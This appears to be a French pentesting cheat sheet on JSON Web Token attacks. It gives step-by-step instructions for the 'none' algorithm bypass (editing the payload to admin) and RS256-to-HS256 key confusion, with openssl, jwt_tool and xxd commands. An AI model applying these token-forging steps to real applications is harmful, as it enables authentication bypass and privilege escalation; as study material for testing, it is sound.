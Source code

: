 https://auth0.com/blog/json-web-token-signing-algorithms-overview/
https://jwt.io/
https://tools.onecompiler.com/hmac-sha512

## None Algo Attack

1. Copier le token dans https://jwt.io/
2. Remplacer l'algorithme par none (**"none"**, **"None"**, **"nOnE"**, **"NONE"**)
3. Remplacer la valeur du payload (username par admin par ex)

Si erreur signature invalide alors la supprimer.

Enfin injecter le token dans la session et rafraichir la page.

## RS256 -> HS256 Algo Attack

Passer de RS256 (asymétrique) à HS256 (symétrique) pourrais pousser le serveur a utiliser la clé publique comme clé secrète.
### Option 1

Récupérer la clé publique depuis un certificat et la mettre au format pem:

```bash
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

Dans jwt.io --> insérer le token et modifier le payload et le header pour y mettre HS256

Puis avec jwt_tool:

```bash
python3 jwt_tool.py <token> -X k -pk pubkey.pem
```

### Option 2

Passer la clé publique au format hexadecimal (attention au 0a à la fin de l'hexa qui peut être en trop, ou pas, a tester ):

```bash
echo "-----BEGIN PUBLIC KEY-----              
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA18StSZxwWvbQiTPM7SRi
dPrcW/Uty9bsB3oaKTlkLksOHUgZ2svBEwc8UtZHtvgb/LZEGnDwEEQptA6pST8a
846gHRmzrtxT8wbVesGyGAnavUmCLyFrS7rhXe4aYEpsdIIjNBq6C/f7tWia/+Sd
4Fz+XBmc76QBqNMWau242G3k+mewmJhX7kMQ0OHDN5rSM1FvUQ32LhZiXz/3tt5P
G/mLO3zN5OnzlQyB6xgHBNV6KdEdapr9icew3Ph2JLI6AY4iFXLr01fZ7ikIPUXn
HGYZ2Ji7DbkYhFKnBLcvfkGj0Gu1HZtzcmM42kOHtSAH/hlFGkHbvToydjPoGENv
6QIDAQAB
-----END PUBLIC KEY-----" | xxd -p | tr -d "\\n"
```

Générer une signature HMAC en SHA256 avec le token (entête et payload) et la clé publique au format hexa 
